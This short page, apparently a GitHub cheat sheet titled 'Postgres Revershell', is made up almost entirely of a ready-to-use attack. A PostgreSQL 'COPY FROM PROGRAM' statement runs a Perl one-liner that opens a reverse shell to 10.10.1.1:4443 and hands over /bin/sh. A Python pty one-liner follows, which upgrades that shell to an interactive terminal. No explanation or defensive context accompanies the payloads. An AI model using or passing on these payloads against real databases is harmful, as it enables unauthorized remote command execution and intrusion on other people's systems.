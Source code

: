 # Postgres Revershell

SQL:
```sql
CREATE TEMP TABLE out(line text);

COPY out FROM PROGRAM $$bash -c "perl -e 'use Socket;\$i=\"10.10.1.1\";\$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(\$p,inet_aton(\$i)))){open(STDIN,\">\&S\");open(STDOUT,\">\&S\");open(STDERR,\">\&S\");exec(\"/bin/sh -i\");};'"$$;

SELECT * FROM out;

```


Python TTY:
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
